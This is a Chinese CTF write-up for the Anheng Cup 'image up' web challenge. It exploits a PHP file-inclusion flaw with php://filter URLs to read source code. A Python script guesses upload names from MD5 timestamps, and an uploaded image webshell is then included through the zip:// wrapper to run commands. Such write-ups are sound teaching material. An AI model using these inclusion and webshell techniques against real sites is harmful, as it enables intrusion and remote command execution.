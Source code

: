```yaml
---
layout: post
title: 安恒杯月赛 web:image up
categories: [web]
tags: [web]
fullview: false
comments: true
---
```

>     http://101.71.29.5:10007/index.php?page=login  
  
仔细观察这个url的话会发现，存在文件包含。  

而且并没有login.php而是login，猜测代码是  
><?php include **str**."php";  


随便账号密码就能登陆，来到了一个上传页面，只能上传图片，回头看看题目  
  
这里的思路明确了，文件包含加图片马。  

>     在这时间统一的世界里，上传图片试试吧

突然发现，并不知道图片去哪里了。  

用为协议读取源代码，  

>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=login
>     http://101.71.29.5:10007/index.php?page=php://filter/read=convert.base64-encode/resource=upload   
>     
  
  




**注意，因为包含文件的时候自动拼接.php，所以这里只写login和upload**  
     
![](https://i.imgur.com/k76GdPb.png)


在upload这里我们发现代码实现的功能。  


>     分割文件名和文件后缀，然后文件名保存为MD5(当前时间+文件名)+文件后缀，上传到upload目录下边。  

这个文件名其实是可以预测的，只不过我们得稍微的爆破一下他前后左右很短的一段时间，访问他是否存在来判断时间是否正确。  

制作一个图片马，上传后立即运行脚本。    


<pre><code>import time
import hashlib
import requests
def md5(str):
    m=hashlib.md5()
    m.update(str)
    return m.hexdigest()
t=int(time.time())
for i in range(t+8*3600-20,t+8*3600+60):#时差查了八个小时
    url="http://101.71.29.5:10007/"+"uploads/"+md5("sky"+str(i))+".jpg"
    res=requests.get(url)

    if res.status_code==200:
        print(url+'')
</code></pre> 
  


直接包含这个图片，发现不行，因为读upload.php源码的时候会发现拼接了.php，相当于你包含了shell.jpg.php，这是一个不存在的文件。  

为了绕过拼接，我们可以用phar和zip为协议。    

  



![](https://i.imgur.com/GX7cfkG.png)  

本来最后必须要打你完整的木马的名字:name.php，但是php是自动拼接的，所以就之打name。  

这样就可以让绕过.php的自动拼接了。。。  

http://101.71.29.5:10043/index.php?page=zip://uploads/图片.jpg%23shell密码，然后命令执行就可以了